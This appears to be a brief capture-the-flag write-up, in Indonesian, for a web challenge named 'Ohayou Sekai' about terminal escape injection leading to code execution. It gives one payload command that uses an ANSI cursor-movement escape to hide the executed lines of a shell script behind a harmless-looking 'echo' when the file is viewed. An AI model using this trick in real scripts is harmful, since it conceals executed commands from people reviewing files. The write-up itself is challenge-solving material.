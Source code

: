 ## Ohayou Sekai
- Chal: WEB
- Difficulty: Ntahlah
- Vuln: RCE

Intinya, ini soalnya tentang Terminal Escape Injection <br>
Referensi: https://www.infosecmatter.com/terminal-escape-injection/

Cara membuat payload:
```
echo -e '#!/bin/sh\nid\nexit 0\n\033[2Aecho "Hello World!"\n' > payload
```
